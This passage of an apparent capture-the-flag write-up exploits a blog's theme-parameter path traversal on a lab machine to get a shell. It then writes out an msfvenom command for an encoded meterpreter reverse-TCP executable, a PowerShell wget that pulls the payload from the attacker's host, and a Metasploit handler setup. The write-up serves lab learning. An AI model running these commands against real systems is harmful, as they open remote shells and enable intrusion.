 Finally, we trigger the vulnerability by accessing the base URL for the blog with the theme override specified like so:

http://10.10.192.114/?theme=../../App_Data/files

<br>

<img style="float: left;" src="screenshots/screenshot12.png">

And we're in! :smile:

The webserver is running as **iis apppool\blog**.

---

### [ Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. ]

To generate the reverse shell for a **meterpreter** session, we can use **msfvenom** with the following command:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=YOUR_IP_HERE LPORT=4445 -f exe -o shell.exe
```

<br>

Next, we run a Python HTTP server on our local machine so that we can grab this executable file later on.

On our target machine, we first navigate to the **c:\Windows\Temp** directory as we have write permissions there. We then use **powershell** and **wget** to download the reverse shell from our local machine.

```
powershell -c wget http://YOUR_IP_HERE:8000/shell.exe
```

<br>

With the reverse shell successfully downloaded onto our target machine, we boot up **msfconsole** and use the **/multi/handler** module. We then set the appropriate options: **LHOST**, **LPORT** and **PAYLOAD**.

With our TCP listener running on Metasploit, we just have to execute the reverse shell on our target machine using ```.\shell.exe```.
